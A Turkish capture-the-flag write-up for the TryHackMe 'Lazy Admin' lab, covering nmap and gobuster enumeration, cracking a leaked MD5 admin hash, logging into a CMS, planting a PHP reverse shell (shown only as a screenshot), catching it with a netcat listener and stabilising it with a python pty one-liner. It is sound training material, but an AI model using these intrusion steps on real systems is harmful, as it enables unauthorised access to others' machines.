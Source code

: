 ```yaml
---
title: Lazy Admin
date: 2024-03-02 12:13:12 
categories: [TryHackMe]
tags: [Easy,Security]
image: https://tryhackme-images.s3.amazonaws.com/room-icons/efbb70493ba66dfbac4302c02ad8facf.jpeg
---
```


 <a href="https://tryhackme.com/room/lazyadmin">Lazy Admin</a>


* * *
Öncelikle nmap taraması başlatalım.
```
┌──(root㉿r3tr0)-[~]
└─# nmap -T5 -v -sV  10.10.120.127
```
nmap çıktısı:
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2023-11-12 13:52 EST
NSE: Loaded 46 scripts for scanning.
Initiating Ping Scan at 13:52
Scanning 10.10.120.127 [4 ports]
Completed Ping Scan at 13:52, 0.16s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 13:52
Completed Parallel DNS resolution of 1 host. at 13:52, 0.00s elapsed
Initiating SYN Stealth Scan at 13:52
Scanning 10.10.120.127 (10.10.120.127) [1000 ports]
Discovered open port 22/tcp on 10.10.120.127
Discovered open port 80/tcp on 10.10.120.127
Completed SYN Stealth Scan at 13:52, 1.66s elapsed (1000 total ports)
Initiating Service scan at 13:52
Scanning 2 services on 10.10.120.127 (10.10.120.127)
Completed Service scan at 13:52, 6.29s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.120.127.
Initiating NSE at 13:52
Completed NSE at 13:52, 0.41s elapsed
Initiating NSE at 13:52
Completed NSE at 13:52, 0.37s elapsed
Nmap scan report for 10.10.120.127 (10.10.120.127)
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds
           Raw packets sent: 1108 (48.728KB) | Rcvd: 1105 (44.208KB)
```
22 ssh ve 80 http servisi açık. Websitesine göz atalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a1.png?raw=true)

Sıradan bir ubuntu default sayfası.

Gobuster çalıştırarak gizli dizinleri arayalım.

```
┌──(root㉿r3tr0)-[~]
└─# gobuster dir -u http://10.10.120.127 -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,php,html
```
gobuster çıktısı:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.120.127
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 11321]
/.html                (Status: 403) [Size: 278]
/content              (Status: 301) [Size: 316] [--> http://10.10.120.127/content/]
Progress: 10236 / 882244 (1.16%)^C
[!] Keyboard interrupt detected, terminating.
Progress: 10276 / 882244 (1.16%)
===============================================================
Finished
===============================================================
```
Bulduğumuz content dizinin içinde de gobuster çalıştırıyorum.
```
┌──(root㉿r3tr0)-[~]
└─# gobuster dir -u http://10.10.120.127/content -w  /usr/share/wordlists/dirb/common.txt 
```
gobuster çıktısı:
```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.120.127/content
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/_themes              (Status: 301) [Size: 324] [--> http://10.10.120.127/content/_themes/]
/as                   (Status: 301) [Size: 319] [--> http://10.10.120.127/content/as/]
/attachment           (Status: 301) [Size: 327] [--> http://10.10.120.127/content/attachment/]
/images               (Status: 301) [Size: 323] [--> http://10.10.120.127/content/images/]
/inc                  (Status: 301) [Size: 320] [--> http://10.10.120.127/content/inc/]
/index.php            (Status: 200) [Size: 2199]
/js                   (Status: 301) [Size: 319] [--> http://10.10.120.127/content/js/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
İncelenecek çok daha fazla dizin bulduk. Her dizini tek tek gezdim ve sadece 2 tanesini ilginç buldum.

Bunlardan ilki giriş formu olan ‘/as’:

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a2.png?raw=true)

Şimdilik giriş bilgilerine sahip değiliz. Diğer dizine geçelim.

'/inc':

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a3.png?raw=true)

Çok fazla dosya var. Biraz inceleme yaptığımda kayda değer bir bilgi buluyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a4.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a5.png?raw=true)

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a6.png?raw=true)

Kullanıcı adının manager olduğunu görüyoruz. Şifreyi hash olarak görünüyor kırmamız gerekecek.

- manager
- 42f749ade7f9e195bf475f37a44cafcb

Bu bir md5 hash'i [md5hashing](https://md5hashing.net/hash/md5) websitesine gidip hash'i kırıyorum.

- 42f749ade7f9e195bf475f37a44cafcb:Password123

Kullanıcı adı ve şifreyi bildiğimize göre bulduğumuz diğer bir dizin olan "/as" dizinine giderek giriş yapalım.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a7.png?raw=true)

Php reverse shell kodu ekliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a11.png?raw=true)


content/inc/ads klasörüne gittiğimde shellimi görebiliyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a8.png?raw=true)


Başlatmadan önce netcat çalıştıralım.

- nc -nvlp 1234

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a9.png?raw=true)


Makineye giriş yapmayı başardık.

- python3 -c ‘import pty; pty.spawn(“/bin/bash”)’ ile shellimizi stabil hale getirelim.

user bayrağını /home/itguy içinde buluyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/LazyAdmin/images/a10.png?raw=true)


![fsoc](/images/fsoc.gif)
